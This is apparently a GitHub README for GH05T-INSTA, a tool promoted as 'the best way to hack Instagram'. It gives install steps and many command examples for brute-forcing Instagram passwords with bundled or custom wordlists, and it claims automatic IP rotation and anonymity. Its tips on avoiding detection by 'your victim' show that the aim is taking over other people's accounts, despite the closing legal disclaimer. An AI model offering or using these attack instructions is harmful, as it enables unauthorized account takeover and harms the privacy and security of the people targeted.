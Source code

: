 <img src="https://i.top4top.io/p_2534rdbvk0.jpg" alt="GH05T INSTA Brute Force Attack" title="GH05T INSTA">

<b>The best way to hack Instagram</b>

<b>The best way report Instagram</b>

## Installation 3.01 <p id="install"></p>

```
apt install git
```
```
apt install python
```
```
apt install python2
```
```
git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA
```
```
cd GH05T-INSTA
```
```
python install.py
```
```
cd 
```
```
rm -rf GH05T-INSTA
```

* You can use two ways 🤺

01 ) Command Based ⬇️

## Usage Commands 

<b>AUTO ATTACK </b>

```
$ gh05t --user username --pass 1
```

* username : Enter your Instagram username
* --pass 1 : Total password list 20 {Select any password option Example 1 , 2 , 3 , ... 18 , 19 , 20}
* [Usage example](https://raw.githubusercontent.com/GH05T-HUNTER5/GH05T-INSTA/main/.img/IMG_20220827_155433.jpg)

```
$ gh05t --user your-account-username --pass your-password-option 
$ gh05t --user mr_77778#8 --pass 2 
$ gh05t --user mr_fqake#@ --pass 3 
$ gh05t --user jdjza888#8 --pass 4 
$ gh05t --user gersman_9#6# --pass 6 
$ gh05t --user mr_77bd778#8 --pass 7 
$ gh05t --user ar_fake#@ --pass 8 
$ gh05t --user li888#8 --pass 9 
$ gh05t --user mtrman_9#6# --pass 10 
$ gh05t --user jr_77778#8 --pass 11 
$ gh05t --user ig_fake#@ --pass 12 
$ gh05t --user hsjza888#8 --pass 13 
$ gh05t --user gelian_9#6# --pass 14 
$ gh05t --user gehsghan_9#6# --pass 15 
$ gh05t --user jr7778#s8 --pass 16 
$ gh05t --user igahacke#@ --pass 17 
$ gh05t --user hsjd888#8 --pass 18 
$ gh05t --user gehdhan_9#6# --pass 19 
$ gh05t --user gehsgan_9#6# --pass 20 
```

<b>MANUAL ATTACK </b>

```
$ gh05t --user username --passadd Your-Pass
```

* username : Enter your Instagram username
* Your-Pass : Enter the name and location(pwd) of your password list

##### Usage example 

```
$ gh05t --user username --passadd pwdlocation-and-name
$ gh05t --user your-account-username --passadd your-password-location-and-name.txt
$ gh05t --user mr_77778#8 --passadd /data/data/com.termux/files/home/password.txt 
$ gh05t --user mr_fake#@ --passadd /data/data/com.termux/files/home/storage/shared/worldlist.txt 
$ gh05t --user liza888#8 --passadd /data/data/com.termux/files/home/storage/downloads/pizza.txt
$ gh05t --user german_9#6# --passadd /data/data/com.termux/files/home/my-pass.txt 
```

<b>Help Command </b>

```
$ gh05t --help
```

* You can view the user guide

<b>CHECKING FILES </b>

```
$ gh05t --check
```

* Checking files and reinstalling deleted files

<b>Update GH05T-INSTA Tool

```
$ gh05t --update
```

* Try this command and you will get the new update

<b>Brute Force Error </b>

```
$ gh05t --error
```

* Brute Force error Try this

<b>Usernames </b>

```
$ gh05t --cookies
```

* After running this command you can see the usernames

<b>Developer </b>

```
$ gh05t developer 
```

* To contact the developers


<b>Uninstall GH05T-INSTA </b>

```
$ gh05t uninstall all
```

* Removes all packages related to GH05T-INSTA 

02 ) just type : gh05t

```
$ gh05t 
```

## Menu

<img src="https://j.top4top.io/p_2534lwzj81.jpg" alt="GH05T INSTA" title="GH05T INSTA">

### Password List {Auto Attack}

<img src="https://k.top4top.io/p_25343fuqr2.jpg" alt="GH05T INSTA PASSWORD LIST" >

<b> Create your own password list : <a href="https://github.com/GH05T-HUNTER5/mypass-hunter5">random passwords</a></b>

### Why GH05T-INSTA

<i>* You can find your Instagram account password.</i>

<i>* This tool works on both rooted Android device and Non-rooted Android device</i>

<i>* Password is updated and uploaded every three months</i>

<i>*  Your IP address will change automatically</i>

<i>* Errors are automatically detected and resolved </i>

<i>* The gh05t tool is always an anonymous attack (Safe to use) <i>

```
If there are any errors, please uninstall {gh05t uninstall all} and reinstall gh05t {git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA 
```

### Pro Tips

* Never login to Instagram app after finding your Instagram password, use your Chrome browser

##### Why Chrome Browser?

* Your login activity will never be saved, so your victim will never find you
* Your login activity will never be displayed

<b>DEVELOPER</b>

<a href="https://github.com/GH05T-HUNTER5">GitHub</a>

<a href="https://t.me/GH05T_HUNTER5">Telegram</a>

<a href="https://www.instagram.com/gh05t_hunter5/">Instagram</a>

<a href="https://youtube.com/channel/UCLoaCSIy4qzx7X2HCjbD8LA">YouTube</a>

<a href="https://mobile.twitter.com/gh05_thunter5">Twitter</a>

<a href="https://gh05thunter5.blogspot.com/2022/07/blog-post.html?m=1">Blogs</a>

<b>Legal disclaimer</b>

`
Usage of GH05T-INSTA for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
`

<small>collaborate</small>

Contact  :  <a href="mailto: gh05thunter5@proton.me">Send Email</a>

Telegram Channel  :  <a href="https://t.me/GH05T_HUNTER5">GH05T HUNTER5</a>

```
                                                                                          The use of the GH05T-INSTA is COMPLETE RESPONSIBILITY of the END-USER. Developers assume NO liability and are NOT responsible for any misuse or damage caused by this program.
```

